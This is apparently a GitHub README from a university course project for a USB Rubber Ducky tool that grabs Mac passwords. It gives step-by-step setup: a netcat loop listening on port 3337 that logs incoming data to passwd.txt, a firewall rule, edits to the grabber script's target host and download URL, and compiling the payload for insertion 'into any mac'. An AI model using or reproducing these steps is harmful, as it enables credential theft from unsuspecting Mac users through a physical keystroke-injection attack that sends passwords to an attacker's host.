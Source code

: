 # Automatic Mac Password Gabber

## Setup First

### Create following script and execute it on your host

* Listening on port 3337

```shell
#!/bin/bash
while [ true ]
do
netcat -vlp 3337 &>> passwd.txt
done
```

* Open firewall for port 3337

```shell
sudo ufw allow 3337/tcp
```

## How To Use

### Clone the repository to your machine

```shell
git clone https://github.com/ohbriansung/usb_rubber_ducky.git
```

### Change TARGET to your host in the script: [gabber.sh](./gabber.sh)

```shell
vi ./usb_rubber_ducky/auto_mac_pw_grab/gabber.sh
```

### Upload updated script to your own github repository

### Change gabber script download address in the ducky script on line 16: [ducky_grabber.txt](./ducky_grabber.txt)

```shell
vi ./usb_rubber_ducky/auto_mac_pw_grab/ducky_grabber.txt
```

### Plug in your microSD card and compile the ducky script into binary

```shell
java -jar ~/Downloads/duckencoder.jar  -i ./usb_rubber_ducky/auto_mac_pw_grab/ducky_grabber.txt -o /Volumes/NO\ NAME/inject.bin
```

### Insert the microSD card into your USB Rubber Ducky and plug your device into any mac!

## Acknowledgement

This is a course project developed at University of San Francisco. Only for academic or personal use, not for any commercial purpose.

## Author

* **Brian Sung** - *Graduate student in department of Computer Science at University of San Francisco* - [LinkedIn](https://www.linkedin.com/in/ohbriansung/)

## Reference

\[1\] https://github.com/hak5darren/USB-Rubber-Ducky

\[2\] https://github.com/danielmiessler
